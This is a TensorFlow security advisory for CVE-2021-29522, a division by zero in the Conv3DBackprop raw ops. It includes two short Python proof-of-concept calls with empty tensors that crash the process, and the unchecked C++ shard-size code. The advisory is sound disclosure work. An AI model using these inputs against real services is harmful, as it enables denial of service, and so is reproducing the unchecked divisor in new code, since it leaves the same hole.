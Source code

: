 ## TFSA-2021-011: Division by 0 in `Conv3DBackprop*`

### CVE Number
CVE-2021-29522

### Impact
The `tf.raw_ops.Conv3DBackprop*` operations fail to validate that the input
tensors are not empty. In turn, this would result in a division by 0:

```python
import tensorflow as tf

input_sizes = tf.constant([0, 0, 0, 0, 0], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 1, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import tensorflow as tf

input_sizes = tf.constant([1], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
filter_tensor = tf.constant([0, 0, 0, 1, 0], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([], shape=[1, 1, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/a91bb59769f19146d5a0c20060244378e878f140/tensorflow/core/kernels/conv_grad_ops_3d.cc#L430-L450)
does not check that the divisor used in computing the shard size is not zero:

```cc
  const int64 size_A = output_image_size * dims.out_depth;
  const int64 size_B = filter_total_size * dims.out_depth;
  const int64 size_C = output_image_size * filter_total_size;
  const int64 work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction
        ? 1
        : (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

Thus, if attacker controls the input sizes, they can trigger a denial of service
via a division by zero error.

### Patches
We have patched the issue in GitHub commit
[311403edbc9816df80274bd1ea8b3c0c0f22c3fa](https://github.com/galeone/tensorflow/commit/311403edbc9816df80274bd1ea8b3c0c0f22c3fa).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
